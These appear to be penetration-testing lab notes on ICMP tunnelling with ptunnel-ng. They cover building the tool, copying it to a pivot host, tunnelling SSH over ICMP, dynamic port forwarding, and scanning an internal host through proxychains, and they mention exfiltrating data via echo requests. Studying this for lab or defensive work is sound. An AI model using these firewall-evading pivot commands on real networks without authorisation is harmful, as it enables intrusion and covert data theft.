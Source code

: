 
- Uses ICMP echo requests to exfiltrate data
- Won't work when firewalls block echo requests

Attack host:
```shell-session
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng
```
```shell-session
sudo ./autogen.sh 
```

**OR

```shell-session
sudo apt install automake autoconf -y

cd ptunnel-ng/

sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh

./autogen.sh
```

```shell-session
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

Pivot Host:
```shell-session
sudo ./ptunnel-ng -r10.129.202.64 -R22
```

Attack host:
```shell-session
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```

**Tunneling SSH through an ICMP tunnel (attack host)
```shell-session
ssh -p2222 -lubuntu 127.0.0.1
```

**Enabling Dynamic Port Forwarding over SSH
```shell-session
ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```
```shell-session
proxychains nmap -sV -sT 172.16.5.19 -p3389
```


